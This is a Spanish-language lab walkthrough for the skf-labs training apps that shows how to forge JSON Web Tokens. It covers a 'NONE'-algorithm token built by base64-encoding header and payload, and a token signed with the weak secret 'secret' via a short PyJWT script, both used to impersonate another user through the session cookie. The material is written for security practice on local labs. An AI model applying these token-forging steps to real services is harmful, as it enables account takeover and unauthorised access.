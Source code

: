 # Explotación y guía paso a paso de JWT

## Instalación 

[Laboratorio skf-labs para practicar múltiples vulnerabilidades](https://github.com/blabla1337/skf-labs)

Acción primer laboratorio (sin validación de signature)

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs
cd nodeJs
cd JWT-null
npm install
npm start
```

Acción: segundo laboratorio (con validación de signature)

```bash
cd JWT-secret
npm install
npm start
```

Resultado: ejemplo del primer laboratorio

```bash
> jwt-null@0.0.1 start
> nodemon app

[nodemon] 2.0.14
[nodemon] to restart at any time, enter `rs`
[nodemon] watching path(s): *.*
[nodemon] watching extensions: js,mjs,json
[nodemon] starting `node app.js`
Listening on port 5000...!!!
```

![Captura](./Imágenes/web_1.png)

Explicación: por `localhost:5000` tenemos este laboratorio montado

---
## Explotación 

### Sin validación de signature

Esta página tiene dos usuarios: 'user' y 'user2' con igual contraseña para cada uno. se ponen las credenciales y se le da primero a 'Authenticate' (para que se nos genere el JWT) y luego a 'Admin'. Entonces nos saldrá la siguiente ventana que indicará si somos 'guest' para 'user' o 'mortal' para 'user2'.

![Captura](./Imágenes/web_2.png)

![Captura](./Imágenes/web_4.png)

Al loguearnos en el `DevTools` podemos ver la cookie de sesión asignada. Es un [JWT](JWT.md) el cual identificamos por sus tres partes diferenciadas por `.`  

![Captura](./Imágenes/web_3.png]]

Podemos acudir al recurso web [jwt.io](https://jwt.io/) para visualizar los valores del JWT asignado y analizar su estructura

![Captura](./Imágenes/web_5.png]]

Para poder crear un JWT válido en un servidor que los utiliza para validar a los usuarios y sus permisos. Se requiere de un *signature* el cual coincide con la tercera parte de las 3 que conforma un JWT. Esta sirve para validar la estructura del JWT, sin él no podemos crear un JWT completo válido. 

![Captura](./Imágenes/jwt_1.png)

Sin embargo, existe una mala configuración en los JWT que puede permitir saltarse esta validación del 'signature'. Para ello en el apartado del algoritmo de cifrado `"alg": "HS256` podemos cambiar el valor del tipo de cifrado por `NONE` y tratar así de ignorar la parte del 'signature'. Las dos primeras partes están compuestas por codificación en `base64` por lo que podemos crear manualmente dicha estructura del siguiente modo:

Acción:

```bash
echo -n '{"alg": "NONE","typ": "JWT"}' | base64
```

Resultado:

```bash
eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQ==
```

Explicación: 


Acción:

```bash
echo -n '{"id": 2,"iat": 1749825730,"exp": 1749829330}' | base64
```

Resultado:

```bash
eyJpZCI6IDIsImlhdCI6IDE3NDk4MjU3MzAsImV4cCI6IDE3NDk4MjkzMzB9
```

Explicación:  con el *JWT* `eyJhbGciOiAiTk9ORSIsInR5cCI6ICJKV1QifQ.eyJpZCI6IDIsImlhdCI6IDE3NDk4MjU3MzAsImV4cCI6IDE3NDk4MjkzMzB9.` tenemos la parte de la ' cabecera' y del 'payload' pero al añadir el valor *'NONE'* y ser aceptado, hemos desestimado el uso de la parte del 'signature'. Esta es una de las formas de vulnerar un JWT si no esta correctamente sanitizado el servidor

Desde el navegador como 'user' podemos cambiar nuestro valor de cookie y tras darle a `enter` darle a la pestaña de 'Admin' y ver que usuario nos valida

![Captura](./Imágenes/web_6.png]]

Confirmamos que esta web permite el ataque de JWT a través del valor *NONE* que evade la validación del token en su apartado de 'signature'

![Captura](./Imágenes/web_7.png]]

---

### Con validación del signature

En el laboratorio 2 tenemos ahora la práctica con un servidor que si valida el apartado de 'signature' ya que requerimos del valor 'secrets' para crear una estructura válida de JWT

![Captura](./Imágenes/web2_1.png)

Explicación: por `localhost:5000` tenemos este laboratorio montado (hay que detener con `ctrl+c` el laboratorio anterior e instalar e iniciar este laboratorio con `npm`


Acción: probamos los mismos pasos que en el ejercicio anterior

![Captura](./Imágenes/web2_2.png)


![Captura](./Imágenes/web2_3.png)


![Captura](./Imágenes/web2_4.png)


Explicación: vemos que tenemos una estructura igual a la anterior, podríamos probar la misma técnica de usar `NONE` en el algoritmo, pero en este caso no va a funcionar

#### Creando un JWT con signature/secreto

**Primero** recomiendo usar una ventana virtual de python

Acción:

```bash
python3 -m venv venv
source venv/bin/activate
```

**Segundo** nos instalamos la siguiente dependencia

Acción:

```bash
pip install --upgrade pyjwt
```

**Tercero** creamos un [Script JWT](Script%20JWT.md) 

Script: 

```python
#!/usr/bin/env python3
"""
Genera un JWT con HS256 y clave 'secret'
Payload fijo: {"id": 2, "iat": 1749829182, "exp": 1749832782}
"""

import jwt  # PyJWT

header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "id": 2,
    "iat": 1749829182,
    "exp": 1749832782
}

secret = "secret"

token = jwt.encode(
    payload,
    secret,
    algorithm="HS256",
    headers=header
)

# PyJWT ≥ 2.0 devuelve str; en versiones < 2.0 devuelve bytes
if isinstance(token, bytes):
    token = token.decode()

print("JWT generado:")
print(token)
```

Resultado:

```bash
JWT generado:
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNzQ5ODI5MTgyLCJleHAiOjE3NDk4MzI3ODJ9.3BltosmJv336EnT4pw0DE9oVw4CuvRn21UNpDl43F0o
```

Explicación: con este **JWT creado manualmente con python** podemos tratar de hacer lo mismo que en el ejercicio anterior, modificar la cookie desde el `DevTools` y ver si accedemos como usuario 2

![Captura](./Imágenes/web2_5.png)

Confirmamos el acceso y concluimos la demostración de como explotar un JWT donde se requiere del parámetro 'signature' o 'secreto' para conformar una estructura válida. Señalar que esto es posible solo si la validación del servidor ocurre tan solo con estos parámetros como la cookie de un JWT. Lo cual no siempre es así y suele validarse con otros campos adicionales, como la verificación del token en el servidor, controles de expiración, listas de revocación, o mecanismos complementarios de autenticación que dificultan este tipo de ataques.

---
